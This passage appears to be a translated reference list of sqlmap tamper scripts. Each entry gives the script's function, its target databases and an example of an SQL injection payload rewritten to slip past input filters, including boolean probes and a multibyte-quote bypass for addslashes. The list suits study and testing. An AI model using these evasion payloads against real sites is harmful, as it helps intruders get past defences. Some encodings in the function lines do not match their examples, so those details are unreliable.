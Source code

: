 ~~~
~~~
## space2mysqlblank.py
Function: Space ==> %2B, %0D, %0C
Platform: Mysql5.1
example
~~~
SELECT id FROM users ==> SELECT%0Bid%0DFROM%0Cusers
~~~
## space2mysqldash.py
Function: Space==> –%0A
Platform: Mssql、Mysql
example
~~~
1 AND 9227=9227 ==> 1 — %0AAND — %0A9227=9227
~~~
## space2plus.py
Function: Space ==> +
Platform: All
example
~~~
SELECT id FROM users ==> SELECT+id+FROM+users
~~~
## space2randomblank.py
Function: Space ==> %0D, %0A, %0C, %09
Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT id FROM users ==> SELECT%0Did%0DFROM%0Ausers
~~~
## symboliclogical.py
Function: and ==> %26%26
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 %26%26 ‘1’=’1
~~~
## thinkphp.py
Platform: Mysql
## unionalltounion.py
Function: Replace All is empty
Platform: All
example
~~~
-1 UNION ALL SELECT ==> -1 UNION SELECT
~~~
## unmagicquotes.py
Function: ‘ ==> %df%27
Platform: Mysql magic_quotes/addslashes
example
~~~
1' AND 1=1 ==> 1%bf%27 —
~~~
## uppercase.py
Function: Lower case to upper case
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
